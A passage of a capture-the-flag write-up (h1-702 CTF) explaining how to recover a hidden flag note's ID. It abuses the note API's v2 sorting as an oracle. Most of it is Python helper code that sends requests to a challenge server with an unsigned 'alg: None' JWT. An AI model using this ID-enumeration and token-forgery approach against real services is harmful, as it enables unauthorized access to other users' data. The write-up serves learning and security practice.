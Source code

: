 ![](https://raw.githubusercontent.com/VoidMercy/CTFs/master/h1-702%20CTF/pic70.png)

This must be the flag! However, to read the flag note, we must know its ID. Luckily, version 2 API exists, which the problem writer generously told us about. This sorts IDs, with which we can brute force, character by character, the IDs by creating notes and seeing if the ID we created is placed before or after the flag note. We can specify the ID with an extra ```"id" : "something"``` key pair when creating a note as explained in the README. Then, we can perform a linear or binary search for the flag note's ID. Here is my code to do this:

```python
import requests, json

def create(data):


  authkey = "eyJ0eXAiOiJKV1QiLCJhbGciOiJOb25lIn0.eyJpZCI6MX0.t4M7We66pxjMgRNGg1RvOmWT6rLtA8ZwJeNP-S8pVak"

  host="http://159.203.178.9/"
  accept = "application/notes.api.v2+json"
  payload = {"note":"A", "id":data}
  headers = {'content-type':'application/json', 'Authorization':authkey,'Accept':accept}
  ret = requests.post(host + "/rpc.php?method=createNote", data=json.dumps(payload), headers=headers)
  #print ret.text
  id = json.loads(ret.text)["url"].split("id=")[1]
  #print id
  return id
def reset():
  authkey = "eyJ0eXAiOiJKV1QiLCJhbGciOiJOb25lIn0.eyJpZCI6MX0.t4M7We66pxjMgRNGg1RvOmWT6rLtA8ZwJeNP-S8pVak"

  host="http://159.203.178.9/"
  accept = "application/notes.api.v2+json"
  headers = {'content-type':'application/json', 'Authorization':authkey,'Accept':accept}
  ret = requests.post(host + "/rpc.php?method=resetNotes", headers=headers)

  #print ret.text

def getnotes():
  authkey = "eyJ0eXAiOiJKV1QiLCJhbGciOiJOb25lIn0.eyJpZCI6MX0.t4M7We66pxjMgRNGg1RvOmWT6rLtA8ZwJeNP-S8pVak"

  host="http://159.203.178.9/"
  accept = "application/notes.api.v2+json"
  headers = {'content-type':'application/json', 'Authorization':authkey,'Accept':accept}
  ret = requests.get(host + "/rpc.php?method=getNotesMetadata", headers=headers)

  return ret.text

def getepoch(id):
  authkey = "eyJ0eXAiOiJKV1QiLCJhbGciOiJOb25lIn0.eyJpZCI6MX0.t4M7We66pxjMgRNGg1RvOmWT6rLtA8ZwJeNP-S8pVak"

  host="http://159.203.178.9/"
  accept = "application/notes.api.v2+json"
  headers = {'content-type':'application/json', 'Authorization':authkey,'Accept':accept}
  ret = requests.get(host + "/rpc.php?method=getNote&id=" + str(id), headers=headers)

  #print ret.text
  return json.loads(ret.text)["epoch"]

flagepoch = "1528911533"
charset = "0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz"
```